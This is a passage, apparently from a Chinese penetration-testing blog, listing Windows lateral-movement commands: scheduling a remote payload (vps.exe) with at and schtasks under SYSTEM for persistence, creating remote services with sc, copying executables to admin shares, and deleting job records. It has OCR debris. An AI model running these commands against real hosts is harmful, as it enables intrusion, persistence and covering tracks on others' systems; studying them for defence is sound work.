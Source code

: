 *   使用at创建计划任务：at  \\\\192.168.10.131 17:00:00 C:\\vps.exe 

*   清除at记录：at  \\\\192.168.10.131  做业ID  /delete

*   使用at命令执行，将执行结果写入本地文本文件，再使用type命令查看该文件的内容：at \\\\192.168.10.131 17:00:00 cmd.exe  /c "ipconfig  > C:/1.txt "

*   查看生成的1.txt文件：type  \\\\192.168.10.131\\C$\\1.txt



![](https://img-blog.csdnimg.cn/202002011700474.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2020020116521873.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### schtasks(计划任务)



Windows Vista、Windows Server 2008及之后版本的操作系统已经弃用at命令，而转为用schtasks命令。schtasks命令比 at 命令更灵活。在使用schtasks命令时，会在系统中留下日志文件：C:\\Windows\\Tasks\\SchedLgU.txt



```
在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system，启动时间为每隔一小时启动一次      
schtasks /create /s 192.168.10.131 /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f       
其他启动时间参数：      
/sc onlogon  用户登录时启动      
/sc onstart  系统启动时启动      
/sc onidle   系统空闲时启动       
查询该test计划任务      1
schtasks /query | findstr test       1
启动该test计划任务      1
schtasks /run /s 192.168.10.131 /i /tn "test"       1
删除该test计划任务      1
schtasks /delete /s 192.168.10.131 /tn "test" /f       1
sc命令创建计划任务      1
copy test.exe \\192.168.10.20\c$      2
sc \\192.168.10.20 create test binpath= "c:\test.exe"      2
sc \\192.168.10.20 start test      2
sc \\192.168.10.20 del test
```




![](https://img-blog.csdnimg.cn/20200708000041639.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200708000343651.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200708000500820.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)
